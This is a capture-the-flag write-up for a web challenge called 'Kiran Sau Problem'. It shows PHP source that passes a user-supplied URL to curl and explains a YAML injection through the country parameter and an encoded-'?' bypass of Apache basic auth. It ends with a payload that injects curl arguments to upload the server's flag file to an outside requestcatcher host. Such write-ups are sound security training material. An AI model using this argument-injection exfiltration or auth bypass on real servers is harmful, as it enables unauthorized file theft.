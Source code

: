 ### Challenge ###
KIRAN SAU PROBLEM
376
Expert
Kiran Ghimire feigned ignorance and said he had no idea what the flag was.

http://chal.competitivecyber.club:8090

Author: Kiran Ghimire (sau_12)

### Solution ###

We are given the source code of the website. We are only going to look at tge interesting part of the code.

challenge.php:
```
<html>
<head>
<title>Kiran Sau Problem</title>
</head>
</html>

<?php

$input = $_GET['country'];
$url = $_GET['url'];

$countryList = array(
    "AF" => "Afghanistan", "AL" => "Albania", "DZ" => "Algeria", "AS" => "American Samoa", "AD" => "Andorra", "AO" => "Angola", "AI" => "Anguilla", "AQ" => "Antarctica", "AG" => "Antigua and Barbuda", "AR" => "Argentina", "AM" => "Armenia", "AW" => "Aruba", "AU" => "Australia", "AT" => "Austria", "AZ" => "Azerbaijan", "BS" => "Bahamas", "BH" => "Bahrain", "BD" => "Bangladesh", "BB" => "Barbados", "BY" => "Belarus", "BE" => "Belgium", "BZ" => "Belize", "BJ" => "Benin", "BM" => "Bermuda", "BT" => "Bhutan", "BO" => "Bolivia", "BA" => "Bosnia and Herzegovina", "BW" => "Botswana", "BV" => "Bouvet Island", "BR" => "Brazil", "BQ" => "British Antarctic Territory", "IO" => "British Indian Ocean Territory", "VG" => "British Virgin Islands", "BN" => "Brunei", "BG" => "Bulgaria", "BF" => "Burkina Faso", "BI" => "Burundi", "KH" => "Cambodia", "CM" => "Cameroon", "CA" => "Canada", "CT" => "Canton and Enderbury Islands", "CV" => "Cape Verde", "KY" => "Cayman Islands", "CF" => "Central African Republic", "TD" => "Chad", "CL" => "Chile", "CN" => "China", "CX" => "Christmas Island", "CC" => "Cocos [Keeling] Islands", "CO" => "Colombia", "KM" => "Comoros", "CG" => "Congo - Brazzaville", "CD" => "Congo - Kinshasa", "CK" => "Cook Islands", "CR" => "Costa Rica", "HR" => "Croatia", "CU" => "Cuba", "CY" => "Cyprus", "CZ" => "Czech Republic", "CI" => "Côte d’Ivoire", "DK" => "Denmark", "DJ" => "Djibouti", "DM" => "Dominica", "DO" => "Dominican Republic", "NQ" => "Dronning Maud Land", "DD" => "East Germany", "EC" => "Ecuador", "EG" => "Egypt", "SV" => "El Salvador", "GQ" => "Equatorial Guinea", "ER" => "Eritrea", "EE" => "Estonia", "ET" => "Ethiopia", "FK" => "Falkland Islands", "FO" => "Faroe Islands", "FJ" => "Fiji", "FI" => "Finland", "FR" => "France", "GF" => "French Guiana", "PF" => "French Polynesia", "TF" => "French Southern Territories", "FQ" => "French Southern and Antarctic Territories", "GA" => "Gabon", "GM" => "Gambia", "GE" => "Georgia", "DE" => "Germany", "GH" => "Ghana", "GI" => "Gibraltar", "GR" => "Greece", "GL" => "Greenland", "GD" => "Grenada", "GP" => "Guadeloupe", "GU" => "Guam", "GT" => "Guatemala", "GG" => "Guernsey", "GN" => "Guinea", "GW" => "Guinea-Bissau", "GY" => "Guyana", "HT" => "Haiti", "HM" => "Heard Island and McDonald Islands", "HN" => "Honduras", "HK" => "Hong Kong SAR China", "HU" => "Hungary", "IS" => "Iceland", "IN" => "India", "ID" => "Indonesia", "IR" => "Iran", "IQ" => "Iraq", "IE" => "Ireland", "IM" => "Isle of Man", "IL" => "Israel", "IT" => "Italy", "JM" => "Jamaica", "JP" => "Japan", "JE" => "Jersey", "JT" => "Johnston Island", "JO" => "Jordan", "KZ" => "Kazakhstan", "KE" => "Kenya", "KI" => "Kiribati", "KW" => "Kuwait", "KG" => "Kyrgyzstan", "LA" => "Laos", "LV" => "Latvia", "LB" => "Lebanon", "LS" => "Lesotho", "LR" => "Liberia", "LY" => "Libya", "LI" => "Liechtenstein", "LT" => "Lithuania", "LU" => "Luxembourg", "MO" => "Macau SAR China", "MK" => "Macedonia", "MG" => "Madagascar", "MW" => "Malawi", "MY" => "Malaysia", "MV" => "Maldives", "ML" => "Mali", "MT" => "Malta", "MH" => "Marshall Islands", "MQ" => "Martinique", "MR" => "Mauritania", "MU" => "Mauritius", "YT" => "Mayotte", "FX" => "Metropolitan France", "MX" => "Mexico", "FM" => "Micronesia", "MI" => "Midway Islands", "MD" => "Moldova", "MC" => "Monaco", "MN" => "Mongolia", "ME" => "Montenegro", "MS" => "Montserrat", "MA" => "Morocco", "MZ" => "Mozambique", "MM" => "Myanmar [Burma]", "NA" => "Namibia", "NR" => "Nauru", "NP" => "Nepal", "NL" => "Netherlands", "AN" => "Netherlands Antilles", "NT" => "Neutral Zone", "NC" => "New Caledonia", "NZ" => "New Zealand", "NI" => "Nicaragua", "NE" => "Niger", "NG" => "Nigeria", "NU" => "Niue", "NF" => "Norfolk Island", "KP" => "North Korea", "VD" => "North Vietnam", "MP" => "Northern Mariana Islands", "NO" => "Norway", "OM" => "Oman", "PC" => "Pacific Islands Trust Territory", "PK" => "Pakistan", "PW" => "Palau", "PS" => "Palestinian Territories", "PA" => "Panama", "PZ" => "Panama Canal Zone", "PG" => "Papua New Guinea", "PY" => "Paraguay", "YD" => "People's Democratic Republic of Yemen", "PE" => "Peru", "PH" => "Philippines", "PN" => "Pitcairn Islands", "PL" => "Poland", "PT" => "Portugal", "PR" => "Puerto Rico", "QA" => "Qatar", "RO" => "Romania", "RU" => "Russia", "RW" => "Rwanda", "RE" => "Réunion", "BL" => "Saint Barthélemy", "SH" => "Saint Helena", "KN" => "Saint Kitts and Nevis", "LC" => "Saint Lucia", "MF" => "Saint Martin", "PM" => "Saint Pierre and Miquelon", "VC" => "Saint Vincent and the Grenadines", "WS" => "Samoa", "SM" => "San Marino", "SA" => "Saudi Arabia", "SN" => "Senegal", "RS" => "Serbia", "CS" => "Serbia and Montenegro", "SC" => "Seychelles", "SL" => "Sierra Leone", "SG" => "Singapore", "SK" => "Slovakia", "SI" => "Slovenia", "SB" => "Solomon Islands", "SO" => "Somalia", "ZA" => "South Africa", "GS" => "South Georgia and the South Sandwich Islands", "KR" => "South Korea", "ES" => "Spain", "LK" => "Sri Lanka", "SD" => "Sudan", "SR" => "Suriname", "SJ" => "Svalbard and Jan Mayen", "SZ" => "Swaziland", "SE" => "Sweden", "CH" => "Switzerland", "SY" => "Syria", "ST" => "São Tomé and Príncipe", "TW" => "Taiwan", "TJ" => "Tajikistan", "TZ" => "Tanzania", "TH" => "Thailand", "TL" => "Timor-Leste", "TG" => "Togo", "TK" => "Tokelau", "TO" => "Tonga", "TT" => "Trinidad and Tobago", "TN" => "Tunisia", "TR" => "Turkey", "TM" => "Turkmenistan", "TC" => "Turks and Caicos Islands", "TV" => "Tuvalu", "UM" => "U.S. Minor Outlying Islands", "PU" => "U.S. Miscellaneous Pacific Islands", "VI" => "U.S. Virgin Islands", "UG" => "Uganda", "UA" => "Ukraine", "SU" => "Union of Soviet Socialist Republics", "AE" => "United Arab Emirates", "GB" => "United Kingdom", "US" => "United States", "ZZ" => "Unknown or Invalid Region", "UY" => "Uruguay", "UZ" => "Uzbekistan", "VU" => "Vanuatu", "VA" => "Vatican City", "VE" => "Venezuela", "VN" => "Vietnam", "WK" => "Wake Island", "WF" => "Wallis and Futuna", "EH" => "Western Sahara", "YE" => "Yemen", "ZM" => "Zambia", "ZW" => "Zimbabwe", "AX" => "Åland Islands", );
$countryList = array_flip($countryList);

$yaml = <<<EOF
- country: $input
- country_code: $countryList[$input]
EOF;

if (empty($yaml)) die("No YAML data provided");


$parsed_arr = yaml_parse($yaml);
$cc = $parsed_arr[1]['country_code'];

if (!$parsed_arr) echo "Error parsing YAML".'<br>';

if (!$input) die("No country code provided");

if (isset($input)) {
    if (array_key_exists($parsed_arr[0]['country'], $countryList)) {
        echo "The country code for ".$parsed_arr[0]['country']." is ". $cc.'<br>';
        run($cc, $url);
    } else {
        die("Country not found");
        return; 
    }
}

function run($cc, $url) {

    echo "Country code: ".$cc."<br>";
    if (!$cc) {
        system(escapeshellcmd('curl '.$url));
    } 
    return;
}
```
If we check the code it expects 2 query parameters as input url and country.
The code checks if we have provided a country in the list or not if yes then it passes the country code and url to return function.
The run function first checks if the country code is empty or not. So we have to give bypass this as if we gave a country which has no country code then we can't reach the run function and if we give a country which is not in the array the check in run function will fail.
We can bypass this easily by smuggling yaml code it to our input :
```input=India
- country:
```
This will create two country fields in the yaml data and will not have any value in country_code array and the country_code value will be empty in the yaml data. But after parsing the first country field will have a valid country but the country_code field will be empty and this way we can bypass both checks.
Now to read flag from the server we can't inject our command into it because of the escapeshellcmd function but we can control the arguments and the url so we can give our url and upload the flag file on to our server.

But we run into another problem:
.htaccess:
```
<Files "challenge.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```
We will need username password to open challenge.php as it is protected by basic auth.
While exploring about this issue i came up againts this research : https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#⚔%EF%B8%8F-Primitive-1-2-ACL-Bypass

It says that by puting %3F a urlencoded '?' we can bypass this type of errors.
Combining all these things together i came up with this payload:
```
http://chal.competitivecyber.club:8090/challenge.php%3Fooo.php?country=India%0D-%20country:%20%0D&url=-F%20password=@/get-here/flag.txt%20https://hookl.requestcatcher.com/test
```

